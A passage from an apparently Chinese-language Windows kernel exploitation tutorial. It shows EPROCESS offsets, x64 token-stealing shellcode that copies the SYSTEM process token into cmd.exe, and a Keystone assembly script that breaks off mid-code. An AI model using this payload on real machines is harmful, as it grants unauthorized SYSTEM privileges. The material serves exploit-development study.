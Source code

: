 ```assembly
ntdll!_EPROCESS
   +0x000 Pcb              : _KPROCESS
   +0x2e0 ProcessLock      : _EX_PUSH_LOCK
   +0x2e8 UniqueProcessId  : Ptr64 Void
   +0x2f0 ActiveProcessLinks : _LIST_ENTRY

1: kd> dt _LIST_ENTRY
ntdll!_LIST_ENTRY
   +0x000 Flink            : Ptr64 _LIST_ENTRY
   +0x008 Blink            : Ptr64 _LIST_ENTRY
```

代码如下：

```assembly
mov r9, qword ptr gs:[0x188]  ; stores KTHREAD value
mov r9, qword ptr[r9+0x220]  ; stores EPROCESS as an offset to KTHREAD
mov r8, [r9+0x3e8]                ;stores InheritedFromUniqueProcessId (cmd.exe PID)
mov rax, r9                       ;moves current EPROCESS into eax
loop1:
  mov rax,qword ptr [rax + 0x2f0]          ;saves the next linked list pointer into rax
  sub rax, 0x2f0                  ;gets the KPROCESS
  cmp [rax + 0x2e8],r8            ;compare the ProcessId with cmd's.
  jne loop1                       ;if not equal, repeat
```

cmd.exe 的 `_KPROCESS` 地址就存储在`rax` 中。

接下来再遍历一遍`_KPROCESS`，读取`system`进程的token，替换掉cmd.exe进程的。`system`进程在系统中的pid恒定为4，根据这个来找：

```assembly
mov rdx,rax
add rdx,0x360  ; 存储cmd.exe的token的地址
mov rax,r9
loop2:  ; 找system进程的 KTHREAD
	mov rax,qword ptr [rax + 0x2f0]          ;saves the next linked list pointer into rax
	sub rax, 0x2f0                  ;gets the KPROCESS
	cmp  byte ptr [rax + 0x2e8],4            ;compare the ProcessId with cmd's.
    jne loop2
mov rcx,rax 
add rcx,0x360 ; 获取system的token地址
mov rbx, [rcx] ; 读取token的内容
mov [rdx],rbx ; 写进cmd.exe
ret
```

接下来使用`Keystone`进行编译，测试:

```python
#coding:utf-8 

import keystone as k

CODE = """
mov r9, qword ptr[r9+0x220]  
mov r8, [r9+0x3e8]               
mov rax, r9                     
loop1:
  mov rax,qword ptr [rax + 0x2f0]         
  sub rax, 0x2f0                 
  cmp [rax + 0x2e8],r8           
  jne loop1                      
mov rdx,rax
add rdx,0x360 
mov rax,r9
loop2:  
	mov rax,qword ptr [rax + 0x2f0]       
```